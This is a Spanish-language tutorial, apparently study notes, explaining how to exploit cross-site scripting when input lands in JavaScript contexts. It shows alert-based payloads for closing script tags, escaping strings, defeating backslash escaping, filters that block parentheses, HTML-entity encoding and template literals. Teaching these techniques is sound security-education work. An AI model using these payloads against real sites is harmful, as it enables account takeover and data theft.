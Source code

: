 # XSS en JavaScript

Cuando el contexto de una vulnerabilidad XSS se encuentra en algún bloque de JavaScript dentro de la respuesta HTML, pueden surgir diversas situaciones que requieren diferentes técnicas de explotación.

## Terminar el script existente

En el caso más simple, es posible cerrar la etiqueta `<script>` que contiene el JavaScript y luego introducir etiquetas HTML que disparen la ejecución de código JavaScript. Por ejemplo:

```html
<script>
  var input = 'controllable data here';
</script>
```

Payload de ejemplo:

```html
</script><img src=1 onerror=alert(document.domain)>
```

## 🪓 Paso a paso: qué hace este payload

### `</script>`:
- Cierra de forma anticipada la etiqueta `<script>` actual.
- Esto rompe el bloque de JavaScript donde estaba la variable `input`.

### `<img src=1 onerror=alert(document.domain)>`:
- Inyecta un elemento HTML (una imagen).
- Le agrega el atributo `onerror`, que es un *event handler*.
- Cuando el navegador no puede cargar la imagen (porque `src=1` no es válido), se dispara el evento `onerror`, que ejecuta `alert(document.domain)`.

---

## ⚙️ ¿Por qué funciona si "rompe" el script anterior?

Porque los navegadores:

1. Primero parsean el **HTML**, y cuando encuentran etiquetas `<script>`, almacenan el código JavaScript.
2. Cuando vos "rompés" la etiqueta `</script>`, el navegador **cierra el script actual** y sigue procesando HTML.
3. Entonces el navegador simplemente interpreta tu `<img>` como parte del HTML, y ejecuta su evento `onerror`.

> Aunque la línea JS `var input = '` queda rota, eso **no bloquea** que se siga procesando lo demás.  
> No todo el archivo HTML se invalida.


## Salir de una cadena de JavaScript

Cuando el contexto está dentro de una cadena JavaScript entre comillas, se puede salir de ella y ejecutar código arbitrario. Es fundamental mantener el resto del código sintácticamente válido.

Ejemplos de payloads:

```javascript
'-alert(document.domain)-'
';alert(document.domain)//
```

Supongamos que hay un código como el siguiente:
```html
<script>
  var input = 'aquí va tu entrada';
</script>
```
Y el servidor incluye tu input dentro de las comillas de esa variable. Si vos inyectás algo como:
```javascript
';alert(document.domain)//
```
Entonces el código se verá así:
```javascript
var input = '';alert(document.domain)//';
```
Esto cierra la cadena original, inyecta el código malicioso y comenta el resto del código para que no genere errores de sintaxis.
### Escapando barras invertidas

Algunas aplicaciones, para evitar `XSS`, intentan proteger las comillas que delimitan la cadena de JavaScript agregando una barra invertida `\` delante. 

Entrada:
```javascript
';alert(document.domain)//
```
Escapada por la app:
```javascript
\';alert(document.domain)//
```
Esto sucede ya que el conjunto de caracteres `\'` se interpreta como una comilla literal, no como el fin de una cadena.

Si los desarrolladores cometieron el error de escapar la comilla pero no la barra invertida `\`, permite al atacante anular la barra invertida agregando otra barra invertida propia.

Ejemplo de payload:
```html
\';alert(document.domain)//
```
Esto quedaría así:
```html
\\';alert(document.domain)//
```
Aquí la primera barra invertida significa que la segunda se interpreta literalmente, y no como un caracter especial. Esto significa que la comilla se interpreta ahora como un terminador de cadena, por lo que el ataque tiene éxito.

## Uso de `throw` para evitar paréntesis

En situaciones donde están filtrados ciertos caracteres como `(` y `)`, se puede usar `throw` con un manejador de errores global:

```javascript
onerror=alert;throw 1
```

Esto llama a `alert(1)` sin necesidad de paréntesis.

## 🔎 ¿Qué hace ese código?

```js
onerror = alert;
throw 1;
```
### 👉 Línea por línea

#### `onerror = alert;`  ---> Asigna la función `alert` al manejador global `onerror`. Cuando ocurra un error, se ejecutará `alert`.

#### `throw 1;`   ---> Lanza una excepción con el valor `1`, lo que dispara el evento `onerror`.

### 🧠 ¿Qué pasa al final?
Como `onerror` apunta a `alert`, el navegador termina ejecutando `alert(1)`. El valor lanzado se usa como argumento, aunque no hayas escrito `alert(1)` directamente.

`Nota`: [Investigación de PortSwigger sobre XSS sin paréntesis ni punto y coma](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)


---


## Haciendo uso de la codificación HTML

Si el contexto está en un atributo HTML como `onclick`, y la app filtra caracteres como `'`, se puede usar entidades HTML:

```html
<a href="#" onclick="... var input='controllable data here'; ...">
```

Payload codificado:
```html
&apos;-alert(document.domain)-&apos;
```

El navegador decodifica `&apos;` como comillas simples, permitiendo cerrar la cadena e inyectar código.

## XSS en literales de plantilla de JavaScript

Los literales de plantilla se definen con comillas invertidas `` ` `` y permiten interpolación de variables:

```javascript
document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
```

Si el contexto está dentro de un literal de plantilla, se puede usar:

```javascript
${alert(document.domain)}
```

Esto ejecuta código sin necesidad de romper la plantilla.

## XSS mediante inyección de plantilla del lado del cliente

Frameworks como AngularJS permiten plantillas dinámicas en el cliente. Si la app inyecta datos del usuario sin sanearlos, se pueden inyectar expresiones de plantilla maliciosas para ejecutar JavaScript.

---

Este documento resume técnicas para explotar XSS en contextos de JavaScript, incluyendo scripts embebidos, literales de cadena y plantilla, y atributos HTML. Estas técnicas son clave para evadir filtros y lograr la ejecución de código en aplicaciones vulnerables.


